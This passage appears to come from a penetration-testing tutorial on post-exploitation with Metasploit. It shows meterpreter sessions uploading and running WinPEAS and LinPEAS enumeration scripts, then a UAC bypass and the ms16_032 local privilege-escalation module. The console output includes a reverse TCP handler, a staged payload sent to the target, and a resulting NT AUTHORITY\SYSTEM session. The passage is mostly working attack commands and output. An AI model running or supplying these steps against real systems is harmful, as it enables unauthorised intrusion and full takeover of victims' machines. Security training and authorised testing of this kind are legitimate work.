 ### Advanced Enumeration with External Tools

#### On Windows (WinPEAS):
```bash
# Upload WinPEAS
meterpreter > upload /usr/share/winpeas/winPEASx64.exe C:\\Windows\\Temp\\winpeas.exe
[*] uploading  : /usr/share/winpeas/winPEASx64.exe -> C:\Windows\Temp\winpeas.exe
[*] Uploaded 1.66 MiB of 1.66 MiB (100.0%): /usr/share/winpeas/winPEASx64.exe -> C:\Windows\Temp\winpeas.exe
[*] uploaded   : /usr/share/winpeas/winPEASx64.exe -> C:\Windows\Temp\winpeas.exe

# Execute it (run in a shell for best results)
meterpreter > shell
Process 3452 created.
Channel 3 created.
C:\Windows\Temp>winpeas.exe quiet cmd fast
```

#### On Linux (LinPEAS):
```bash
# Upload LinPEAS
meterpreter > upload /usr/share/linpeas/linpeas.sh /tmp/linpeas.sh
[*] uploading  : /usr/share/linpeas/linpeas.sh -> /tmp/linpeas.sh
[*] Uploaded 88.07 KiB of 88.07 KiB (100.0%): /usr/share/linpeas/linpeas.sh -> /tmp/linpeas.sh
[*] uploaded   : /usr/share/linpeas/linpeas.sh -> /tmp/linpeas.sh

# Make executable and run
meterpreter > shell
Process 1234 created.
Channel 1 created.
$ chmod +x /tmp/linpeas.sh
$ /tmp/linpeas.sh -a > /tmp/linpeas_report.txt
```

## 3. Privilege Escalation Techniques

### Windows Privilege Escalation

#### Using Metasploit Modules:
```bash
# 1. Try UAC bypass first (gets admin privileges)
msf6 > use exploit/windows/local/bypassuac_eventvwr
msf6 exploit(windows/local/bypassuac_eventvwr) > set SESSION 2
msf6 exploit(windows/local/bypassuac_eventvwr) > run
[*] Exploit completed, but no session was created.

# 2. Try named pipe impersonation
msf6 > use exploit/windows/local/ms16_032_secondary_logon_handle_privesc
msf6 exploit(windows/local/ms16_032_secondary_logon_handle_privesc) > set SESSION 2
msf6 exploit(windows/local/ms16_032_secondary_logon_handle_privesc) > run
[*] Started reverse TCP handler on 192.168.1.102:4444 
[*] Writing payload file to C:\Windows\TEMP\radBEOHv.ps1...
[*] Compressing script contents...
[+] Compressed size: 3592
[*] Executing exploit script...
[+] Exploit finished, wait for (hopefully privileged) payload execution to complete.
[*] Sending stage (200774 bytes) to 192.168.1.105
[*] Meterpreter session 3 opened (192.168.1.102:4444 -> 192.168.1.105:49214)

# 3. Check if we got SYSTEM
meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
```
